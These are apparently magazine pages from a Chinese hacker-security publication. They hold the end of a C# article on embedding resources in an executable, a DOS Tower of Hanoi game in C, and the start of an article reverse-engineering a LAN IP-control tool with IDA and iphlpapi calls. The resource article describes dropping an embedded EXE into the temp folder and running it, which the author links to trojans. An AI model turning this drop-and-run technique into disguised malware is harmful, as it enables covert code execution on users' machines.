private void LoadImg_Click(object sender, System.EventArgs e)
{
  ...
}
```

```csharp
private void LoadImg_Click(object sender, EventArgs e)
{
    pictureBox.Image = (Image)rm.GetObject("MyPic");
}

// 从资源中提取字符串并显示
private void LoadString_Click(object sender, System.EventArgs e)
{
    string str = (string)rm.GetString("MyString");
    MessageBox.Show(str);
}
```

有一项一栏，此时将文件类型设为 `*.*`，然后找到前面编译好的资源文件 MyResources.resources 打开即可。以上代码在 Windows 2003 + Visual Studio .NET 2003 下调试通过。

在这个例子中，仅仅实现了如何从自身资源提取 EXE 文件，并没有加入一些像木马那样的配置信息，因此本文也仅仅是抛砖引玉的作用。为了让大家更好地研究这段代码，提供了一个简单的源代码文件（参见文中），程序会在 Windows 临时文件夹生成 temp.exe，然后调用它对 ASP 文件实现加密操作。

4．别忘了还要把原来编译好的资源文件 MyResources.resources 调入。调入方法：文件 -> 添加现有项。

适合读者：程序员，游戏爱好者  
前置知识：C/C++ 基础

#### 自己写汉诺塔游戏


文／袁嘉尉

本来我只想做一个动画演示的程序，然后发给黑防大编。后来想了想，不如做成游戏吧。我把想法告诉了 Socket，他说很好，然后我就做了这个程序。其实还有很多功能可以完善，但是我觉得挺浪费时间的，也就没加了。

我先说说我编动画的思路吧：汉诺塔，把 n 个盘子按从小到大的顺序从 A 挪到 C 上，途中要经过 B。所以我定义了几个数组来记录盘子的大小和顺序，并设置了一些变量与函数。

```c
#include <graphics.h>
#include <dos.h>
#include <conio.h>
#include <stdio.h>
#include <stdlib.h>
#include <process.h>

#define a xy[0]
#define b xy[1]
...
char xy[1], rr;
int m, i=1, g=0, h=0, k=1, l=1, o=0, ...;
```

接下来就可以看程序部分了，首先我们从 main 函数开始看：

```c
main()
{
    char dd;
    int driver=DETECT, mode;
    initgraph(&driver,&mode,"");
    bar(0,0,1024,768);
    closegraph();
    clrscr();
    printf("1.play hanoi ... 2.see computer play ... 3.exit");
    while(1){
        dd=getch();
        if(dd==49) play();
        else if(dd==50) print();
        else if(dd==51) abort();
    }
}
```

接下来我们可以先看演示的部分，也就是选择“2 看电脑玩”，具体代码如下：

```c
void print()
{
    int driver=DETECT, mode;
    initgraph(&driver,&mode,"");
    bar(0,0,1024,768);
    closegraph();
    clrscr();
    printf("input the number of disks:");
    scanf("%d", &m);
    hanoi(m, m, 'A', 'B', 'C');
}
```

```c
extern hanoi(int n,int i,char one,char two,char three)
{
    if(n==1) move(1,one,three);
    else {
        hanoi(n-1,i,one,three,two);
        move(i,one,three);
        hanoi(n-1,i,two,one,three);
    }
}

/* 通过递归调用 hanoi 函数来实现自动确定步骤 */
/* 在调用 hanoi 的过程中调用了 move 函数，用来计算 c,d,e 数组中的数值 */
void move(int f,char x,char y)
{
    int oo=0; /* 区分游戏和演示部分 */
    ...
}
```

再次颠倒，在下面还会有一个颠倒。要反复颠倒的原因是：画图和计算对于数组顺序的需求不一样。计算需要正确的顺序，而画图需要颠倒过来，否则会画出倒着摆放的汉诺塔。

```c
printf("The step to moving %3d diskes:",f);
printf("\n%c-->%c",x,y);
if(a=='A'&&b=='C') {...}
else if(a=='A'&&b=='B') {...}
else if(a=='B'&&b=='C') {...}
...
```

```c
else if(a=='B'&&b=='A')
{...}
else if(a=='C'&&b=='A')
{...}
else if(a=='C'&&b=='B')
{...}

for(i=1;i<=(f+1)/2;i++) {
    hh=f+1-i;
    gg=c[i];c[i]=c[hh];c[hh]=gg;
}
/* 第3次颠倒，为画图做准备 */
draw(oo,f,i,g,h);
```

调用 draw 函数来画出汉诺塔的移动情况，因为是不断计算、调用，每一步就计算一次、画一次。程序通过不断刷新 c,d,e 数组内容来确定 3 个底座上碟子的情况。

```c
void draw(int o,int u,int aa,int bb,int cc)
{
    int driver=DETECT,mode;
    initgraph(&driver,&mode,"");
    if(c[aa]==0&&d[bb]==0&&e[cc]==1) ...
    if(o!=0) {
        if(o==1) circle(...);
        if(o==2) circle(...);
        if(o==3) circle(...);
    }
    if(p!=1){ ... }
}
```

这段代码与游戏部分有关：先判断是游戏还是演示，再依据变量值确定光标位置。后面的颠倒代码在第 2 次调用 draw 且 `p!=1` 时才调用，原因同样是计算与绘图对数组顺序需求不同。

```c
for(i=1,aa=1,bb=1,cc=1;i<=u+1;i++,aa=aa+1,bb=bb+1,cc=cc+1)
{
    ...
}
```

```c
bar(100-c[aa]*10,350-(aa+u+1)*10,100+c[aa]*10,360-(aa+u+1)*10);
bar(300-d[bb]*10,350-(bb+u+1)*10,300+d[bb]*10,360-(bb+u+1)*10);
bar(500-e[cc]*10,350-(cc+u+1)*10,500+e[cc]*10,360-(cc+u+1)*10);
```

这段就是画汉诺塔和中间那根柱子的代码。循环碟子的次数加 1 是为了让柱子多个头，方便看。实现这个的原因就是 `bar` 函数在左与右相等的时候就会画一条线。画碟子的方法是通过循环 `u+1` 次，把 `c,d,e` 数组中的每个数值都画出来。`pp=2` 时改变 `pp` 的值，让上面运行的代码在第 2 次的时候可以运行 `sleep(1)`，让程序停止 1 秒，用来观看，否则会直接看到结果，没有过程。`closegraph();` 关闭图形初始化，如果没有这句，会不断地加载图形，导致内存不够。

```c
win()
{
    int driver=DETECT, mode;
    initgraph(&driver,&mode,"");
    bar(0,0,1024,768);
    closegraph();
    clrscr();
    printf("you win!");
    sleep(3);
    main();
}
```

这个不需要注释什么，停顿 3 秒后回到主函数。下面再说一下游戏部分，看主函数可以知道游戏部分是调用 `play` 函数。

```c
void play()
{
    int key;
    int driver=DETECT, mode;
    initgraph(&driver,&mode,"");
    bar(0,0,1024,768);
    closegraph();
    clrscr();
    printf("input the number of diskes:");
    scanf("%d", &m);
    if (p==1) {
        for(i=1;i<=m;i++) c[i]=i;
        p=2;
    }
    for(i=1;i<=(m+1)/2;i++){
        hh=m+1-i;
        gg=c[i];c[i]=c[hh];c[hh]=gg;
    }
    draw(n,m,xx,yy,zz);
}
```

```c
/* 这部分和 move 函数里面的基本一样，这个也是 3 次颠倒，只不过最后一次颠倒 */
while(1)
{
    for(i=1;i<=(m+1)/2;i++){
        hh=m+1-i;
        gg=c[i];c[i]=c[hh];c[hh]=gg;
    }

    key=bioskey();
    if (key==rt && n==3) n=1;
    else if (key==lt && n==1) n=3;
    else if (key==lt && n>1) n=n-1;
    else if (key==rt && n<3) n=n+1;

    else if (key==et && ww==1){
        ww=2;
        if((n==1&&c[xx]==0)||(n==2&&d[yy]==0)||(n==3&&e[zz]==0)){
            clrscr();
            printf("can not put a empty line!");
            sound(440);delay(500);nosound();
            ww=1;
        }
        if(n==1&&ww==2){w=c[xx];c[xx]=0;xx=xx+1;}
        if(n==2&&ww==2){w=d[yy];d[yy]=0;yy=yy-1;}
        if(n==3&&ww==2){w=e[zz];e[zz]=0;zz=zz-1;}
    }
    else if (key==et && ww==2){
        ww=1;
        if((n==1&&c[xx]<w&&c[xx]!=0)||(n==2&&d[yy]<w&&d[yy]!=0)||(n==3&&e[zz]<w&&e[zz]!=0)){
            clrscr();
            printf("can not put the big plate on the little plate!");
            sound(440);delay(500);nosound();
            ww=2;
        }
        if(n==1&&ww==1){xx=xx-1;c[xx]=w;}
        if(n==2&&ww==1){yy=yy+1;d[yy]=w;}
        if(n==3&&ww==1){zz=zz+1;e[zz]=w;}
    }
    draw(n,m,xx,yy,zz);
}
```

用回车和 `ww` 变量判断提取、落下的代码，是这个程序里比较好的一段代码。`ww` 用来识别是提取还是落下：在 `ww=1` 也就是提取情况下，先令 `ww=2` 作为落下标识，再判断是否可提取；若不合法则恢复提取状态并报警。若合法则清除原底座上的盘子。再次按回车执行落下时，再判断目标柱顶盘子是否比提取盘子小；若是则还原为落下前状态，否则将盘子放到底座并调用 `draw` 更新状态。这样整个程序就完成了。

适合读者：程序员，远程控制软件开发者  
前置知识：C/C++ 基础

## 网络执法官
### 核心技术初探（上）

文/图 四川大学信息安全研究所 古开元



大家都知道，现在学校内的 IP 资源越来越有限，相信很多在校的读者都有过痛苦的抢 IP 与被抢 IP 的经历。如果你是黑防的忠实读者（什么？你不是？开门，放老毒，WTF......），也许你此刻正在偷笑，因为黑防很多期都介绍过一个抢 IP 最强的工具——网络执法官。

网络执法官是一款国产的局域网管理辅助软件，采用网络底层协议，能穿透各种客户端的防火墙对网络中的每一台主机进行监控。它采用网卡号（MAC 地址）识别用户，可靠性高；软件本身占用网络资源少，对网络没有什么不良影响。软件不需运行于指定的服务器，在网内任何一台主机上运行即可有效监控所有本机连接到的网络（支持多网段监控），功能十分强大。网络执法官（v2.92 试用版）的主界面如图 1 所示。





不过，本文的目的不是介绍网络执法官的功能及用法，而是探索隐藏在该软件实现背后的核心技术，这才是黑客精神的本质嘛（呵呵，开玩笑，我可不敢自称黑客）。废话少说，让我们开始吧。



从图 1 的主界面，我们选择查看“本机状态”的视图，如图 2 所示。大家注意有框框住的那 3 个地方，分别是本机网卡参数、当前连接（TCP/UDP）状态和 CPU 使用率，今天我们就先暂时讨论并实现这 3 个技术吧。  
以下程序均在 Windows XP SP1 + VC7 环境下编译通过！

##### 核心技术一——获得本机网卡参数

细心的读者可能发现，网络执法官获得的网卡参数就跟我们在 CMD 命令下用“ipconfig /all”这条命令得到的结果是一样的，如图 3 所示。

哈哈，这下就好办了。搬出强大的 IDA（The Interactive Disassembler）反汇编利器来，从系统目录 system32 里把 ipconfig.exe 找出来并加载到 IDA 去（有读者问，为什么不反汇编网络执法官呢？呵呵，网络执法官比 ipconfig.exe 大得多，包含的导入函数肯定暴多。本人后来也曾用 IDA 来反汇编网络执法官的主程序 Robocop.exe，等我喝完茶、上完厕所、听了首歌，它才很辛苦地反编译完……），然后选择主菜单 -> Windows -> Imports（或直接 ALT+4），看到只有为数不多的几个函数，我们的目光一下子就可以定位在如图 4 所示的地方了。

全部调用的都是 iphlpapi 库里的 API。就在我利用 MSDN 查看上面所框住的每一个 API 时，无意中找到了 GetAdaptersInfo() 这个 API 函数。该函数内部已经封装了 ipconfig.exe 可以实现的大部分功能函数，定义如下。

```c
DWORD GetAdaptersInfo(
    PIP_ADAPTER_INFO pAdapterInfo,   // 取得的网卡适配器信息结构
    PULONG pOutBufLen                // 网卡适配器信息结构长度
);
```

这里注意几点：

- 1. 使用该函数必须加上 `#include <iphlpapi.h>` 头文件和 `#pragma comment(lib, "iphlpapi.lib")` 语句。当然，你也可以用 `LoadLibrary("iphlpapi.dll")` 来显式加载库。
- 2. 在真正使用 `GetAdaptersInfo()` 之前必须先作一次初始化，调用 `GetAdaptersInfo()` 取得指向该函数第 2 个参数必要的大小，如下：

```c
// 分配空间
pAdapterInfo = (IP_ADAPTER_INFO*)malloc(sizeof(IP_ADAPTER_INFO));

// 必须先初始化 IP_ADAPTER_INFO 结构大小
ULONG ulOutBufLen = sizeof(IP_ADAPTER_INFO);

// 取得指向 ulOutBufLen 的值
if (GetAdaptersInfo(pAdapterInfo, &ulOutBufLen) == ERROR_BUFFER_OVERFLOW) {
    free(pAdapterInfo);                 // 释放掉原来分配的
    pAdapterInfo = (IP_ADAPTER_INFO*)malloc(ulOutBufLen); // 重新分配空间
}
```

这样，我们感兴趣的东西都放在了 pAdapterInfo 所指向的结构里了。该结构的 MSDN 描述如下：

```c
typedef struct _IP_ADAPTER_INFO {
    struct _IP_ADAPTER_INFO* Next; // 下一块网卡信息
    DWORD ComboIndex;              // 索引
    char AdapterName[MAX_ADAPTER_NAME_LENGTH + 4];
    char Description[MAX_ADAPTER_DESCRIPTION_LENGTH + 4];
    UINT AddressLength;            // MAC 地址长度
    BYTE Address[MAX_ADAPTER_ADDRESS_LENGTH]; // MAC 地址
    ...
} IP_ADAPTER_INFO, *PIP_ADAPTER_INFO;
```

```c
DWORD Index;                         // 网卡索引号
UINT Type;                           // 网卡类型
UINT DhcpEnabled;                    // 是否开启 DHCP
PIP_ADDR_STRING CurrentIpAddress;    // 当前 IP 地址
IP_ADDR_STRING IpAddressList;        // IP 地址列表
IP_ADDR_STRING GatewayList;          // 网关 IP 地址
IP_ADDR_STRING DhcpServer;           // DHCP 服务器 IP 地址
BOOL HaveWins;                       // 是否使用 WINS 服务
IP_ADDR_STRING PrimaryWinsServer;    // 主 WINS 服务器 IP
IP_ADDR_STRING SecondaryWinsServer;  // 次 WINS 服务器 IP
...
} IP_ADAPTER_INFO, *PIP_ADAPTER_INFO;
```

哇，看到可以获得这么多重要的信息，你是不是已经在狂流口水啦……

- 3. 我们当然也可以用 IDA 里显示的那几个文档化了的 API 来实现，大家可以自己当做练习来实现。具体的实现代码参看附件（MacInfo.cpp）。

## 核心技术二：分析 TCP/UDP 连接

看完上面技术一的实现，聪明的读者肯定想到了我们这一技术的实现可以如法炮制。要想成为高手不是靠一股冲劲和蛮力就可以做到的，更多的是靠机智和变通，要学会举一反三。TCP/UDP 的当前连接让你想起了什么？对，`netstat`！我们在命令行下输入 `netstat -an`，得到截图，如图 5 所示。



图 5

是不是和图 2 中网络执法官实现的一样呢（读者甲：不一样啊，本地和远程的位置放反了！狂倒！）。重复上面的工作，用 IDA 加载系统目录 system32 里的 netstat.exe，发现还是加载了 iphlpapi 库的 API 函数，如图 6 所示。图 6 框中显示的分别是 GetUdpStatsFromStackEx()、GetTcpStatsFromStackEx()、GetIpStatsFromStackEx()、GetIcmpStatsFromStackEx()、AllocateAndGetTcpExTableFromStack() 和 AllocateAndGetUdpExTableFromStack() 这 6 个 API 函数。



图 6

这些都是微软未文档化的函数（我猜的），那怎么办？不能就这样悻悻了。注意到 MSDN 中 iphlpapi 库给出的 API 函数有几个与上面列出的极为相似，比如：

```c
DWORD GetIpStatistics(
    PMIB_IPSTATS pStats
);
// 获取当前计算机的IP统计数据
// 指向运行在计算机上的IP协议信息的存储结构
```

GetUdpStatistics()、GetTcpStatistics() 和 GetIcmpStatistics() 原型与 GetIpStatistics() 类同，其中重点就在于分析 MIB_IPSTATS、MIB_TCPSTATS 等结构体的成员。从这些函数的名字就可以知道，它们的作用在于获取当前计算机的 IP、TCP、UDP、ICMP 等协议的统计数据。看下面这个函数：

```c
DWORD GetTcpTable(
    PMIB_TCPTABLE pTcpTable,
    PDWORD pdwSize,
    BOOL bOrder
);
// 获得TCP连接表
// 指向MIB_TCPTABLE结构的缓冲区
// 指向pTcpTable所指结构大小的指针
// 是否按 本地IP->本地端口->远程IP->远程端口 排序
```

它获取本机 TCP 当前连接状态信息。GetUdpTable() 与 GetTcpTable() 原型类似。同理，这里的重点则在于分析 MIB_TCPTABLE 和 MIB_UDPTABLE 这两个结构体的成员。可以看到，MIB_IPSTATS、MIB_TCPSTATS 等结构体专门用来存储运行在某一特定主机 IP 协议、TCP 协议等相关信息，而 MIB_TCPTABLE 和 MIB_UDPTABLE 结构体则包含了 TCP/UDP 连接表的详细信息。由此可以看到，通过获取这些关键结构体的相关数据成员，就可以获取 TCP/UDP 当前的连接信息。由于篇幅原因，加上这些结构体的成员繁多，这里就不一一列举，大家应该参阅 MSDN 获取更详尽的信息。

附件中提供了著名安全站点 nologin 提供的 netstat.c 源代码，相信读者们经过仔细分析阅读，会有很大的收获。

## 3. 获取本机 CPU 使用率的实现

显示 CPU 使用率好像很多时候都要用到；最典型的莫过于我们 Ctrl+Alt+Del 调出 Windows 任务管理器的时候，状态栏中间就会看到本机 CPU 使用率的不断变化，如图 7 所示。



图 7

